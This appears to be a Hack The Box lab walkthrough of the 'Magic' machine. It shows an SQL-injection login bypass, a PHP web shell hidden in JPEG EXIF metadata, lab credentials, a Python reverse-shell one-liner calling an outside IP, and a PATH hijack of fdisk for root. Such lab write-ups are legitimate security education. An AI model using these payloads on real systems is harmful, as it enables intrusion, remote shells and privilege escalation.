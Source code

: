 ```yaml
---
layout: post
title: Magic Machine Walkthrough
description: >
    Magic Hackthebox Machine Detailed Walkthrough
sitemap: false
categories: [Hackthebox]
permalink: /:categories/magic.html
---
```

***"Any sufficiently advanced technology is indistinguishable from magic."*** - Arthur C. Clarke
{:.lead}
![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/machine.jpeg)

* toc
{:toc .large-only}

## Machine Matrix
![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/matrix.png)

## Machine Summary
Box is a linux machine that has a webserver running whose authentication can be bypassed through SQL Injection. There is a file upload functionality that can be bypassed which grants the low privileged shell. There is a php file which has stored credentials for mysqlservice, we can get the user credentials through accessing the tables. Replacing the fdisk file malicious file (reverse shell) and adding the path grants the root privilege as sysinfo binary indirectly pulls fdisk.

## Nmap Scan
I started the enumeration with nmap scan
```bash
nmap -sC -sV 10.10.10.185
```
![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/nmap.png)

The box had two ports open

| Port         | Service           |
|:-------------|:------------------|
| 22           | SSH               |
| 80           | Apache            |

## Enumeration on port 80
I ran dirbuster that revealed a folder /images/uploads but it was forbidden

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/1.png)

But the contents and files of the folder can be accessed

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/2.png)

I guessed the inital foothold path i.e i need to find a way to upload a file ( that contains the shell code) and trigger it. I started enumerating on the web application.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/4.png)

## Bypassing Authentication Through SQLI
Application had a login page and the authentication can be bypassed through SQL Injection.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/5.png)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/6.png)

```
'or'1'='1
```
There is a upload functionality so i tried to put a webshell but i wasn't able to directly upload it. I also tried to bypass upload restrictions through changing the extension of the file to .php.png and content type from application to image/png but that also failed.

## Acquiring Initial Foothold as www-data
Upon researching a bit, i found a way to add a malicious code (web-shell) to meta data of a image file through using exif tool.

```bash
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg ; mv file.jpg file.php.jpg
```

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/8.png)

Upon loading the file on browser, it looks like crap.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/9.png)

Upon viewing on Burp, it made sense.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/10.png)

In order to get a proper reverse shell, i decided to upload a php reverse shell and triger that

```bash
wget http://{IP}/{PORT}
```

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/11.png)

I started the listener on my attacking machine

```bash
nc -lvnp {PORT}
```

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/13.png)

I got the initial foothold as www-data.

## Acquiring User Shell - Theseus

Upon enumerating the directories i found a juicy file **db.php** in the directory **/var/www/Magic**. The file had credentials of the user **theseus**
```
dbUsername = theseus
dbPassword = iamkingtheseus
```

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/14.png)

I tried to login over MySQL Service and SSH but both failed. 

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/15.png)

Upon researching a bit got to know about the command **mysqldump** that is used to backup, restore and dump the database.

I used that to dump the entire Magic database

```bash
mysqldump -u theseus -p Magic
```

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/16.png)

I got a new set of credentials for the user theseus

```
username: admin
password: Th3s3usW4sK1ng
```

I tried to login into the theseus account using the obtained password over ssh. I got the user shell

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/18.png)

## Acquiring Root Privileges
I ran linPeas that gave some information, sysinfo belongs to the root but can be executed by the user theseus. I executed the sysinfo command, it displayed more information then a normal sysinfo command would. After researching a bit, I found that information that gets revealed while executing fdisk command also revealed while executing sysinfo in the machine. **binary fdisk is getting executed indirectly when sysinfo is executed**

I created a python script that would grant me the reverse shell with the name **fdisk**

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",8989));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I downloaded the file in the victim machine at tmp directory but when sysinfo gets executed fdisk in the bin directory gets executed. so i need to set the path to tmp directory.

```bash
export PATH=/tmp/:$PATH
```

I started the listener in my attacker machine and again executed sysinfo, fdisk in the /tmp/ directory got executed and i got the reverse shell with root privileges.

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/20.png)

![](https://r3dw0lfsec.in/assets/img/blog/HTB/magic/pwned.png)

Happy Hacking !